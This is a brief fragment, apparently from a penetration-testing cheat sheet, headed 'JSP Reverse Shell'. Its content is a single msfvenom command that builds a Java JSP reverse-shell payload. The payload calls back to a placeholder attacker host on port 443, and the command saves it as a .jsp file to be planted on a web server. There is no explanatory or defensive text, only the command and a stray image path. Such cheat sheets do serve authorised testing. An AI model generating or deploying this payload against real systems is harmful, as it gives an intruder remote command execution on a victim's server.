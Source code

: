 ### JSP Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.jsp
```

